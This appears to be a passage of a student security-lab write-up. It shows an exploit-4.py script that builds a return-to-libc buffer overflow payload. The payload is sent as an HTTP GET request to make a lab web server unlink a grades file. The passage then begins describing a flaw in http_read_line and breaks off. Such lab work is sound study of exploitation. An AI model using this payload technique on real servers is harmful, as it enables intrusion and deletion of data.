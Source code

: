 `exploit-4.py`

```python
stack_buffer = 0x7fffffffdcd0
stack_retaddr = 0x7fffffffece8
accidentally_fn_addr = 0x5555555558f4
lib_c_unlink_addr = 0x2aaaab2470e0
unlink_file_path = "/home/httpd/grades.txt" + b'\00'


def build_exploit(shellcode):

    payload = unlink_file_path + \
        'a' * (4095 - len(unlink_file_path)) + 'b' * 24

    accidentally_addr_processed = struct.pack("<Q", accidentally_fn_addr)
    payload += accidentally_addr_processed


    # proceed to add lib-c address to the addr just after rip so that when pop happens, sp points here, and goes into lib-c. There is now no need for padding
    lib_c_unlink_addr_processed = struct.pack("<Q", lib_c_unlink_addr)
    payload += lib_c_unlink_addr_processed

    # make that rb %0x10 point to stackbuffer[1]
    payload += struct.pack("<Q", stack_buffer+1)

    # make sure to
    payload = urllib.quote(payload)

    req = "GET /{0} HTTP/1.0\r\n".format(payload) + \
        "\r\n"
    return req
```

## check result ex1-ex4

![](https://i.imgur.com/mlwSXRi.png)

### Exercise 5

#### Vulnerability 1

One of the vulnerabilties we discovered was with the method `http_read_line` implemented in the server code. For every request that enters the server (via `process_client`), we note that the process will call the `http_request_line` with arguments of the file descriptor, as well as th `reqpath` buffer.

`http_request_line` will then call `http_read_line`, which has been poorly coded out as below. Note that all this is happening in the parent process:

`http.c`
